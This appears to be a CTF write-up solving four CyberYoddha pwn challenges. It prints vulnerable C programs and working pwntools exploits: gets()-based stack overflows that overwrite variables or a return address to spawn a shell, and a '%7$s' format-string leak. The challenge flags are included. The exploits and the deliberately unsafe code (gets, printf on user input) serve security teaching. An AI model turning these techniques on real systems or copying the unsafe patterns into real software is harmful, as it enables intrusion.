 ## CyberYoddha CTF: [pwn]

#### Since the solutions to all the challenges are pretty basic, I'll just shove them all into one writeup.

![](wipe.png)

## Overflow 1
![](overflow1_desc.png)

#### overflow1.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
  char str[] = "AAAA";
  char buf[16];

  gets(buf);
  
  if (!(str[0] == 'A' && str[1] == 'A' && str[2] == 'A' && str[3] == 'A')){
    system("/bin/sh");
  }
}
```
#### The vulnerability in the code is quite simple, we just need to provide input more than the allocated size of the buf variable in order to overwrite the contents of the str array.

```python
from pwn import *

p = remote('cyberyoddha.baycyber.net', 10001)
p.sendline(cyclic(100))
p.interactive()

#: CYCTF{st@ck_0v3rfl0ws_@r3_3z}
```

## Overflow 2
![](overflow2_desc.png)

#### overflow2.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void run_shell(){
	system("/bin/sh");
}

void vuln(){
	char buf[16];
	gets(buf);
}

int main(void) {
	vuln();  
}
```

#### Again a simple buffer overflow vulnerability and a function hijack attack. Simply overwrite the return address to the address of run_shell.

```python
from pwn import *

p = remote('cyberyoddha.baycyber.net', 10002)
exploit = cyclic(28)
exploit += p32(0x8049172)
p.sendline(exploit)
p.interactive()

#: CYCTF{0v3rfl0w!ng_v@ri@bl3$_i$_3z}
```

## Overflow 3
![](overflow3_desc.png)

#### overflow3.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
	long vuln = 0;
    char buf[16];

	gets(buf);

	if (vuln == 0xd3adb33f){
		system("/bin/sh");
	}
}
```

#### Buffer overflow to control the value of a variable. After solving this challenge, I begin to think if the flags for overflow2 and overflow3 have been unintentionally switched.

```python
from pwn import *

#:
'''p = process('./Overflow3')
gdb.attach(p.pid, 'break *main + 51')'''
p = remote('cyberyoddha.baycyber.net',10003)
exploit = cyclic(16)
exploit += p32(0xd3adb33f)
p.sendline(exploit)
p.interactive()

#: CYCTF{wh0@_y0u_jump3d_t0_th3_funct!0n}
```
## FormatS
![](formats_desc.png)

#### formats.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main ()
{
	char *input;
	char *flag = "REDACTED!";

	gets(input);
	printf(input);

	return 0;
 
}
```

#### printf is called using user supplied input leading to a format string vulnerability. Since the flag is in the stack, we can simply read values as strings from the stack (using the `%s` modifier) and take note of the offset that holds the pointer to the flag variable.

```python
from pwn import *

#:
#p = process('./formats')
p = remote('cyberyoddha.baycyber.net', 10005)
p.sendline('%7$s')
print(p.recv())

#: cyctf{3xpl0!t_th3_f0rm@t_str!ng}
```